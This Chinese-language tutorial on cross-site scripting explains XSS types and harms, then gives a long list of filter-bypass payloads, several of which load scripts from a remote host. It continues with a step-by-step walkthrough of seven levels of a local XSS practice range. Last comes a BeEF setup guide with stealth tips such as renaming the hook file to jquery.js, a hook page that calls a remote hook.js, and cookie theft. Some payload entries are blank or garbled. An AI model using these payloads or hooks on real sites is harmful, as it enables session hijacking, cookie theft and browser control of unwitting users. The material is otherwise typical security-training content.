





# XSS漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————                                                                              

### 一、XSS攻击简介

​	XSS全称是Cross Site Scripting即跨站脚本，当目标网站目标用户浏览器渲染HTML文档的过程中，出现了不被预期的脚本指令并执行时，XSS就发生了。

​	作为一种HTML注入攻击，XSS攻击的核心思想就是在HTML页面中注入恶意代码，而XSS采用的注入方式是非常巧妙的。在XSS攻击中，一般有三个角色参与：攻击者、目标服务器、受害者的浏览器。

​	由于有的服务器并没有对用户的输入进行安全方面的验证，攻击者就可以很容易地通过正常的输入手段，夹带进一些恶意的HTML脚本代码。当受害者的浏览器访 问目标服务器上被注入恶意脚本的页面后，由于它对目标服务器的信任，这段恶意脚本的执行不会受到什么阻碍。而此时，攻击者的目的就已经达到了。

### 二、XSS原理

​	XSS的原理是恶意攻击者往 Web 页面里插入恶意可执行网页脚本代码，当用户浏览该页之时，嵌入其中 Web 里面的脚本代码会被执行，从而可以达到攻击者盗取用户信息或其他侵犯用户安全隐私的目的。

### 三、XSS危害

XSS可以造成的危害有很多，常见的有以下：
1.网络钓鱼，包括获取各类用户账号
2.窃取用户c0okes资料，从而获取用业隐私信息，或利用用户身份进一步对网站执行操作
3.劫持用户（浏览器）会话，从而执行任意操作，例如非法转账、强制发表日志、电子邮件等
4.强制弹出广告页面、刷流量等
5.网页挂马
6.进行大量的客户端攻击，如DDoS等
7.获取客户端信息，如用户的浏览历史、真实叩、开放端口等
8.控制受害者机器向其他网站发起攻击
9.结合其他漏洞，如CSRF,实施进一步危害
10.传播跨站脚本蠕虫

### 四、XSS攻击类型

​	根据XSS脚本注入方式的不同，我们可以将XSS攻击简单的分类为反射型XSS、存储型XSS、DOM-based 型、基于字符集的 XSS、基于 Flash 的跨站 XSS、未经验证的跳转 XSS 6种类型。

#### 1、反射型XSS（非持久型XSS）

​	又称非持久型XSS。之所以称为反射型XSS，是因为这种攻击方式的注入代码是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的：发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，故叫反射型XSS。 而称为非持久型XSS，则是因为这种攻击方式具有一次性，由于代码注入的是一个动态产生的页面而不是永久的页面，因此这种攻击方式只在点击链接的时候才产生作用。

​	攻击者通过电子邮件等方式给别人发送带有恶意脚本代码参数的 URL，当 URL 地址被打开时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，特有的恶意代码参数被 HTML 解析、执行。

#### 2、存储型XSS（持久型XSS）

​	存储型XSS，又称持久型XSS，他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码。

​	一般存在于 Form 表单提交等交互功能，如发帖留言，提交文本信息等，黑客利用的 XSS 漏洞，将内容经正常功能提交进入数据库持久保存，当前端页面获得后端从数据库中读出的注入代码时，恰好将其渲染执行。

​	这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。

​	可以看到，存储型XSS的攻击方式能够将恶意代码永久地嵌入一个页面当中，所有访问这个页面的用户都将成为受害者。如果我们能够谨慎对待不明链接，那么反射型的XSS攻击将没有多大作为，而存储型XSS则不同，由于它注入的往往是一些我们所信任的页面，因此无论我们多么小心，都难免会受到攻击。可以说，存储型XSS更具有隐蔽性，带来的危害也更大，除非服务器能完全阻止注入，否则任何人都很有可能受到攻击。

#### 3、DOM-based 型

​	客户端的脚本程序可以动态地检查和修改页面内容，而不依赖于服务器端的数据。例如客户端如从 URL 中提取数据并在本地执行，如果用户在客户端输入的数据包含了恶意的 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到 DOM-based XSS 攻击。需要特别注意以下的用户输入源 document.URL、 location.hash、 location.search、 document.referrer 等。

#### 4、基于字符集的 XSS

​	哪怕现在很多的浏览器以及各种开源的库都专门针对了 XSS 进行转义处理，尽量默认抵御绝大多数 XSS 攻击，但是还是有很多方式可以绕过转义规则，让人防不胜防。比如「基于字符集的 XSS 攻击」就是绕过这些转义处理的一种攻击方式，比如有些 Web 页面字符集不固定，用户输入非期望字符集的字符，有时会绕过转义过滤规则。

​	可以形成「基于字符集的 XSS 攻击」的原因是由于浏览器在 meta 没有指定 charset 的时候有自动识别编码的机制，所以这类攻击通常就是发生在没有指定或者没来得及指定 meta 标签的 charset 的情况下。

#### 5、基于 Flash 的跨站 XSS

​	基于 Flash 的跨站 XSS 也是属于反射型 XSS 的一种，AS 脚本可以接受用户输入并操作 cookie，攻击者可以配合其他 XSS（持久型或者非持久型）方法将恶意 swf 文件嵌入页面中。主要是因为 AS 有时候需要和 JS 传参交互，攻击者会通过恶意的 XSS 注入篡改参数，窃取并操作cookie。

#### 6、未经验证的跳转 XSS

​	有一些场景是后端需要对一个传进来的待跳转的 URL 参数进行一个 302 跳转，可能其中会带有一些用户的敏感（cookie）信息。如果服务器端做302 跳转，跳转的地址来自用户的输入，攻击者可以输入一个恶意的跳转地址来执行脚本。

### 五、Xss-Payload

```
等效替换（绕过方式）

<script>alert(1)</script>

<svg onload=alert(1)>

<a href=javascript:alert(1)>

<a href='javascript:alert(1)'>aa</a>


<a href='#' onclick=alert('xss')>test</a>

(1)普通的 XSS JavaScript 注入
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(2)IMG 标签 XSS 使用 JavaScript 命令


(3)IMG 标签无分号无引号


(4)IMG 标签大小写不敏感


(5)HTML 编码(必须有分号)


(6)修正缺陷 IMG 标签
<SCRIPT>alert("XSS")</SCRIPT>">

(7)formCharCode 标签(计算器)


(8)UTF-8 的 Unicode 编码(计算器)


(9)7 位的 UTF-8 的 Unicode 编码是没有分号的(计算器)


(10)十六进制编码也是没有分号(计算器)


(11)嵌入式标签,将 Javascript 分开


(12)嵌入式编码标签,将 Javascript 分开


(13)嵌入式换行符


(14)嵌入式回车


(15)嵌入式多行注入 JavaScript,这是 XSS 极端的例子


(16)解决限制字符(要求同页面)
<script>z='document.'</script><script>z=z+'write("'</script><script>z=z+'<script'</script><s
cript>z=z+'
src=ht'</script><script>z=z+'tp://ww'</script><script>z=z+'w.shell'</script><script>z=z+'.ne
t/1.'</script><script>z=z+'js></sc'</script><script>z=z+'ript>")'</script><script>eval_r(z)<
/script>

(17)空字符 12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 2/6perl -e 'print "";' > out

(18)空字符 2,空字符在国内基本没效果.因为没有地方可以利用
perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

(19)Spaces 和 meta 前的 IMG 标签


(20)Non-alpha-non-digit XSS
<SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(21)Non-alpha-non-digit XSS to 2
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(22)Non-alpha-non-digit XSS to 3
<SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(23)双开括号
<<SCRIPT>alert("XSS");//<</SCRIPT>

(24)无结束脚本标记(仅火狐等浏览器)
<SCRIPT SRChttp://3w.org/XSS/xss.js?<B>

(25)无结束脚本标记 2
<SCRIPT SRC=//3w.org/XSS/xss.js>

(26)半开的 HTML/JavaScript XSS
a=/XSS/alert(a.source)</SCRIPT>

(29)换码过滤的 JavaScript
\";alert('XSS');//

(30)结束 Title 标签
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

(31)Input Image
<INPUT SRC="javascript:alert('XSS');">

(32)BODY Image
<BODY BACKGROUND="javascript:alert('XSS')">

(33)BODY 标签
<BODY('XSS')>

(34)IMG Dynsrc


(35)IMG Lowsrc


(36)BGSOUND
<BGSOUND SRC="javascript:alert('XSS');">

(37)STYLE sheet
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

(38)远程样式表
<LINK REL="stylesheet" HREF="http://3w.org/xss.css">

(39)List-style-image(列表式)
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

(40)IMG VBscript
</STYLE><UL><LI>XSS

(41)META 链接 url
<META HTTP-EQUIV="refresh" CONTENT="0;URL=http://;URL=javascript:alert('XSS');">

(42)Iframe
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

(43)Frame
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>12-7-1 T00LS - Powered by Discuz!
Boardhttps://www.a.com/viewthread.php?action=printable&tid=15267 3/6

(44)Table
<TABLE BACKGROUND="javascript:alert('XSS')">

(45)TD
<TABLE><TD BACKGROUND="javascript:alert('XSS')">

(46)DIV background-image
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(47)DIV background-image 后加上额外字符(1-32&34&39&160&8192-8&13&12288&65279)
<DIV STYLE="background-image: url(javascript:alert('XSS'))">

(48)DIV expression
<DIV STYLE="width: expression_r(alert('XSS'));">

(49)STYLE 属性分拆表达


(50)匿名 STYLE(组成:开角号和一个字母开头)
<XSS STYLE="xss:expression_r(alert('XSS'))">

(51)STYLE background-image
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><ACLASS=XSS></A>

(52)IMG STYLE 方式
exppression(alert("XSS"))'>

(53)STYLE background
<STYLE><STYLEtype="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

(54)BASE
<BASE HREF="javascript:alert('XSS');//">

(55)EMBED 标签,你可以嵌入 FLASH,其中包涵 XSS
<EMBED SRC="http://3w.org/XSS/xss.swf" ></EMBED>

(56)在 flash 中使用 ActionScrpt 可以混进你 XSS 的代码
a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval_r(a+b+c+d);

(57)XML namespace.HTC 文件必须和你的 XSS 载体在一台服务器上
<HTML xmlns:xss><?import namespace="xss"
implementation="http://3w.org/XSS/xss.htc"><xss:xss>XSS</xss:xss></HTML>

(58)如果过滤了你的 JS 你可以在图片里添加 JS 代码来利用
<SCRIPT SRC=""></SCRIPT>

(59)IMG 嵌入式命令,可执行任意命令


(60)IMG 嵌入式命令(a.jpg 在同服务器)
Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser

(61)绕符号过滤
<SCRIPT a=">" SRC="http://3w.org/xss.js"></SCRIPT>

(62)<SCRIPT =">" SRC="http://3w.org/xss.js"></SCRIPT>

(63)<SCRIPT a=">" " SRC="http://3w.org/xss.js"></SCRIPT>

(64)<SCRIPT "a='>'" SRC="http://3w.org/xss.js"></SCRIPT>

(65)<SCRIPT a=`>` SRC="http://3w.org/xss.js"></SCRIPT>

(66)12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 4/6<SCRIPT a=">'>"
SRC="http://3w.org/xss.js"></SCRIPT>

(67)<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://3w.org/xss.js"></SCRIPT>

(68)URL 绕行
<A HREF="http://127.0.0.1/">XSS</A>

(69)URL 编码
<A HREF="http://3w.org">XSS</A>

(70)IP 十进制
<A HREF="http://3232235521′′>XSS</A>

(71)IP 十六进制
<A HREF="http://0xc0.0xa8.0×00.0×01′′>XSS</A>

(72)IP 八进制
<A HREF="http://0300.0250.0000.0001′′>XSS</A>

(73)混合编码
<A HREF="http://6 6.000146.0×7.147/"">XSS</A>

(74)节省[http:]
<A HREF="//www.google.com/">XSS</A>

(75)节省[www]
<A HREF="http://google.com/">XSS</A>

(76)绝对点绝对 DNS
<A HREF="http://www.google.com./">XSS</A>

拆分跨站
    <script>z='alert'</script>
    <script>z=z+'(/xss/)'</script>
    <script>eval(z)</script>
```

### 六、XSS靶场

能够成功执行js脚本就算成功，譬如用alert弹出某些信息，当然也可以换成跳转成其他页面

#### level-1

```
按F12或者右键查看网页源代码，查找test位置进行xss注入（最好是看网页源代码，因为F12的开发者模式是经过加工经过修饰的最终输出结果，并不是网页最原始最真实的代码）

<h2 align=center>欢迎用户test</h2><center></center>

因为网页没有做任何的js过滤，所以只需要在欢迎用户后面填上js代码

输入：<script>alert(1)</script>（原本欢迎用户后面是test，现在换成了js代码）

输出：http://127.0.0.1/xss/level1.php?name=<script>alert(1)</script>

这样html就会把这个js脚本文件当成网页源代码的一部分执行，这样就会跳出来那个框框了
```

#### level-2

```
查看网页源代码

<input name=keyword  value="test">可以发现因为带了双引号的缘故，js脚本代码无法执行

因此本关需要闭合双引号绕过

输入："><script>alert(1)</script>

输入后就变成了这样的代码，实现了闭合，右侧的双引号可以不用理会不影响

输出：<input name=keyword  value=""><script>alert(1)</script>">
```

#### level-3

```
查看网页源代码

<input name=keyword  value=''>	

此时就可以发现F12显示的是双引号但是网页源代码是单引号，所以最好右键查看网页源代码

测试网页对哪些参数进行了过滤

输入：'><"script onclick   (onclick是点击事件，还有中间有空格别忘记了，这也是测试空格是否被过滤）

【测试输入也可以变换成 ' "<script> onclick href img src 会更加完整,下文会提及】

再次查看网页源代码可以看到

输出：<input name=keyword  value=''&gt;&lt;&quot;script onclick'>	

可以发现 > < " 都被过滤了

所以 ' script onclick 没有被过滤，先记下来（其中script也是不能用的因为没有><号），能用的也就只有 ' onclick,再去Xss-Payload查看是否有能替换的，能在标签内部被使用的）

输入：' onclick='alert(1)

输出：<input name=keyword  value='' onclick='alert(1)'>

因为输入的是点击事件，所以还需要点击一下输入框才会弹出

回忆一下点击事件的关键词：

onclick：在鼠标左健点击弹起之后触发的事件，即一次完整的鼠标点击过程。过程完成瞬间触发函数。

onmousedown：事件会在鼠标按键被按下时发生。

onmouseup：事件会在松开鼠标按键时触发。

onmouseover：属性在鼠标指针移动到元素上时触发。

onmouseout： 属性在鼠标指针移动到元素外时触发。

onmouseenter：属性在鼠标指针移动到元素上时触发,
              onmouseover和onmouseenter唯一的区别是 onmouseenter 事件不支持冒泡。
			  
onmouseleave：属性在鼠标指针移动到元素外时触发,
              onmouseout和onmouseleave唯一的区别是 onmouseleave 事件不支持冒泡。
```

#### level-4

```
查看网页源代码

<input name=keyword  value="try harder!"> （本关输入框里面就不是test了，而是try harder!，所以找try harder!）

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：'><"script onclick   

再次查看网页源代码可以看到

输出：<input name=keyword  value="'"script onclick">

可以发现><都被删了，所以此处就不能用script

还是要想着在元素内部就能触发的一种形式，就譬如点击事件

输入："onmouseover="alert(1)      [onmouseover：属性在鼠标指针移动到元素上时触发。]

输出：<input name=keyword  value=""onmouseover="alert(1)">

将鼠标移到输入框即可完成本关
```

#### level-5

```
查看网页源代码

<input name=keyword  value="find a way out!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：'><"script onclick   

再次查看网页源代码可以看到

输出：<input name=keyword  value="'><"script o_nclick">

发现onclick中间多了条下划线，所以我们需要改变输入的测试代码

输入：' "<script> onclick

输出：<input name=keyword  value="' "<scr_ipt> o_nclick">

可以发现script也不能用

所以此时我们就需要从Xss-Payload中去测试其他参数看一下行不行了

输入：' "<script> onclick href img src (on都被过滤了，所以onerror自然也就不行，这边就不写了）

输出：<input name=keyword  value="' "<scr_ipt> o_nclick href img">

所以此时可以发现href和img都可以使用（具体xss注入样式看Xss-Payload也就是第四部分）

输入："> <a href=javascript:alert(1)> HelloWorld </a>//   (//在html中是注释符的意思，加上//后面的参数都没掉了，在此处，最末尾的"和>消失了)

输出：<input name=keyword  value=""> <a href=javascript:alert(1)> HelloWorld </a>//">

此时的HelloWorld发现是可被点击，再点击一下HelloWorld，则会跳转到javascript:alert(1)这个语句并执行它，完成本关
```

#### level-6

```
查看网页源代码

<input name=keyword  value="break it out!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：' "<script> onclick href img src  

再次查看网页源代码可以看到

输出：<input name=keyword  value="' "<scr_ipt> o_nclick hr_ef img sr_c">

可以发现script、onclick、href、src都不能用 （src不能使用img也无法使用，因为img的xss注入代码是这样的）

所以此时我们就需要回顾回顾sql注入的一些绕过方式，像什么双写绕过啊，大小写绕过等

输入：" Onclick="alert(1)

输出：<input name=keyword  value="" Onclick="alert()">

发现并没有被过滤，可以完整的执行

点击输入框即可完成本关

我们再尝试一下用script的方式，因为><并没有被过滤，同样将其中的一些小写字母转换成大写字母

输入："><scRipt>alert(1)</scRipt>

输出：<input name=keyword  value=""><scRipt>alert(1)</scRipt>">

一样可以成功执行通过本关
```

#### level-7

```
查看网页源代码

<input name=keyword  value="move up!">

可以发现是用双引号闭合起来的

测试网页对哪些参数进行了过滤
 
输入：' "<script> onclick href img src  

再次查看网页源代码可以看到

输出：<input name=keyword  value="' "<> click  img ">

可以发现script、onclick、href、src都不能使用，其中的script、href、src、onclick中的on甚至被删了

那我们就可以猜想它有可能只删了一次，不会删两次，所以这里我们使用双写绕过的方式

输入：" oonnclick="alert(1)

输出：<input name=keyword  value="" onclick="alert(1)">

点击输入框即可完成本关

img src我们没有试过，那就来试试img src这种xss注入方式吧

输入："> 

输出：<input name=keyword  value=""> ">

可以被成功执行，完成本关

这个xss靶场的关卡大概20关左右，但是其中的很多xss注入方式我们在现实生活中都不一定会遇得到，后面的关卡写的越来越离谱了，所以这里只是做一些比较可能常用的xss注入
```


### 七、XSS工具——Beef

#### 1、beef介绍

​	BeeF是前欧美最流行的web框架攻击平台，kali 集成Beef，而且Beef有很多好使的payload。例如，通过XSS这个简单的漏洞，BeeF可以通过一段编制好的javascript控制目标主机的浏览器，通过浏览器拿到各种信息并且扫描内网信息，同时能够配合metasploit进一步渗透主机，强大的有些吓人。
beef也是属于c/s结构，具体看图




​	zombie（僵尸）即受害的浏览器。zombie是被hook（勾连）的，如果浏览器访问了有勾子（由js编 写）的页面，就会被hook，勾连的浏览器会执行初始代码返回一些信息，接着zombie会每隔一段时间 （默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。BeEF服务器本质上就 像一个Web应用，被分为前端UI，和后端。前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录BeEF 的后台管理UI。


#### 2、kali下使用beef

kali默认已经安装了beef，但是我的kali没有，我也不知道为什么0.0，那就自己装一个吧。命令：

```
apt install beef-xss
```

kali已经把beef-xss做成服务了，推荐使用systemctl 命令来启动或关闭beef服务器

```
systemctl start beef-xss.service  #开启beef 
systemctl stop beef-xss.service     #关闭beef 
systemctl restart beef-xss.service  #重启beef
```

配置beef

kali下的BeeF配置文件在 /usr/share/beef-xss/config.yaml,其它的配置文件也在这个目录的子目录 下，往后在使用某些功能时，需要修改对应的配置文件。自主安装的BeeF配置文件会在BeeF的主目录 下config.yaml,建议修改几个地方：

```
permitted_hooking_subnet: "0.0.0.0/0"     #指定某个网段，只有在这个网段的浏览器才能被hook
permitted_ui_subnet: "0.0.0.0/0"          #指定某个网段，只有在这个网段的浏览器才能访问管理UI
                            #上面这两项都是可以被绕过的，只要使用X-Forwarded-For首部绕过，一般不需要设置
host: "0.0.0.0"                           #设置beef服务器的主机， 如果有自己的域名， 那么可以设置自己的域名, 没有就使用默认
port: "3000"                              #设置beef服务器监听的端口， 可以自己定一个，比如8080, 记得端口号需要大于1024
xhr_poll_timeout: 1000                    #受害浏览器轮询beef主机的时间， 默认为1秒，可以设置为更低。
public: ""                                #public hostname/IP address 
public_port: ""                           #experimental 
                   # 这是让BeEF运行在一个反向代理或者NAT环境下才需要设置的。 
web_ui_basepath: "/ui"                    #管理页面的URI， 默认是/ui, 建议修改，这样就不会让别人找到你的管理页面
hook_file: "/hook.js"                     #hook_file 的名称， 建议修改， 可以修改为jquery.js之类的来提升隐蔽性
credentials: user: "beef" passwd: "beef"  #管理页面登录的用户名和密码， 这个一定要改，两个都改是最好的
```

#### 3、实际操作

接下来实际使用BeEF，体验一下。首先修改监听的ip地址为kali的ip



开启BeEF服务器（可以命令行beef-xss打开或者应用程序打开），接着用浏览器访问管理页面http://192.168.133.131:3000/ui/panel， 使用设置的用户/密码登录。




接着访问有勾子的页面

```
http://192.168.133.131:3000/demos/basic.html 
```

这里的主机名和端口号要按照你设置的来修改， 这里要注意一下kali下beef版本的勾子不支持IE8，最新版或者旧一些的版本可以。所以要使用其他浏览器来访问有勾子的页面。
下面给出一个写有勾子的页面，把创建文件test.html，并把下面内容写到其中：

```
<html>
<head>
<script src='http://192.168.133.131:3000/hook.js'></script> <!-- 这里的主机和端口号，需要 和配置文件的一致。 --> 
</head> 
<body> Hello World </body> 
</html>
```

接着使用一个浏览器来打开，那么这个浏览器就会被hook了。 查看管理页面UI会是类似下面图：



接着我们就可以在commands里面进行各种操作了比如
 获取cookie




